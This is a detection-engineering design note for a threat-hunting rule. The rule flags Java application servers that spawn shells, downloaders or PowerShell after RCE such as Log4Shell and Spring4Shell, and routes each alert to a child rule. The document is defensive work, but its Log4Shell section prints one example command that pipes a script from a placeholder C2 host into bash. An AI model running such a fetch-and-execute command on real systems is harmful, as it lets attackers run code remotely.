

# Router Rule — Java_Runtime_Exec_Abuse

**Architecture:** 2 — Router Rule (Temporary)  
**Author:** Ala Dabat | MTDF 2026  
**MITRE ATT&CK:** T1059 — Command and Scripting Interpreter  
**Platform:** MDE Advanced Hunting — Linux + Windows  
**Lifecycle:** Temporary — decomposition tracker active  
**Base Score:** 0 · **Threshold:** ≥ 30  

---

## Purpose

Triage surface for Java application server RCE across all Java process types. Routes analysts to dedicated composite sensors per application context.

---

## Why Router Rule and Not Composite

Java application servers represent the most complex noise domain in the web runtime RCE family because **the same binary (`java.exe`) serves fundamentally different purposes** in the same enterprise:



If these were combined into a single composite:
- A penalty for Jenkins (high-volume legitimate) would suppress Tomcat RCE
- A penalty for Kafka cluster ops would suppress Spring Boot RCE
- Blind spots would be created that cannot be independently tuned

**Multiple radically different noise domains → router rule.**

---

## Decomposition Tracker

| Technique | Target Composite | Status | Retirement Trigger |
|-----------|-----------------|--------|--------------------|
| Tomcat/JBoss/WildFly → bash/sh | `Java_WebApp_Shell_RCE` | 🔴 Pending | ADX validated |
| Tomcat/Spring → curl/wget | `Java_WebApp_Downloader_RCE` | 🔴 Pending | ADX validated |
| Spring Boot → powershell.exe | `Java_Windows_Cradle_RCE` | 🔴 Pending | ADX validated |
| Kafka/Elasticsearch → bash | `Java_DataPlatform_Shell` | 🔴 Pending | ADX validated |
| Jenkins agent → cmd/bash | Exclude via Q8 allowlist | ⚠️ High noise | Review quarterly |

When all four pending composites are ADX-validated, this router rule should be retired.

---

## Application Context Classification

The router uses `InitiatingProcessFolderPath` to classify the Java application type:

| Path Pattern | Application Type | Routing |
|-------------|-----------------|---------|
| `/opt/tomcat/`, `C:\tomcat\` | Web Application Server | → Java_WebApp_Shell_RCE |
| `/opt/kafka/`, `/opt/elasticsearch/` | Data Platform | → Java_DataPlatform_Shell |
| `/home/jenkins/`, `/var/lib/jenkins/` | Jenkins CI/CD | LOW priority — verify context |

---

## Attack Vectors Covered

| Attack | Java Framework | Telemetry |
|--------|---------------|-----------|
| Apache Log4Shell (CVE-2021-44228) | Any using Log4j | java → bash with JNDI lookup |
| Spring4Shell (CVE-2022-22965) | Spring MVC | java → bash |
| Struts2 RCE (CVE-2017-5638) | Apache Struts | java → bash via OGNL injection |
| Java deserialisation (ysoserial) | Any | java → bash/curl |
| WebLogic/JBoss RCE | Oracle/Red Hat | java → bash |

---

## Routing Decisions

| Score Range | Child Type | Routing |
|-------------|-----------|---------|
| ≥ 45 | Any + reverse shell | CRITICAL → Java_WebApp_Shell_RCE |
| ≥ 30 | Shell + pipe/base64 | HIGH → Java_WebApp_Shell_RCE |
| ≥ 30 | Downloader + URL | HIGH → Java_WebApp_Downloader_RCE |
| ≥ 30 | PowerShell + cradle | HIGH → Java_Windows_Cradle_RCE |
| ≥ 30 | Shell + data platform path | MEDIUM → Java_DataPlatform_Shell |
| Any | Jenkins account | LOW → Verify pipeline context |

---

## Log4Shell Context

This rule covers **post-exploitation telemetry** from Log4Shell and similar JNDI injection vulnerabilities. The JNDI lookup itself (network-level) requires a separate network-based detection. This rule catches the resulting child process execution:

```
java → bash -c "curl http://C2/malware.sh | bash"
  ↑
  This is what Log4Shell execution looks like in DeviceProcessEvents
```

---

## Ecosystem Position

```
Web Application Runtime RCE Family:
NodeJS_SuspiciousChildProcesses  ✅ Composite
PHP_exec_Abuse                   ✅ Composite
Python_subprocess_Abuse          ✅ Composite
Java_Runtime_Exec_Abuse          ✅ Router (this rule)
  └── Java_WebApp_Shell_RCE      🔴 Build next
  └── Java_WebApp_Downloader_RCE 🔴 Build next
  └── Java_Windows_Cradle_RCE    🔴 Build next
  └── Java_DataPlatform_Shell    🔴 Build next
```
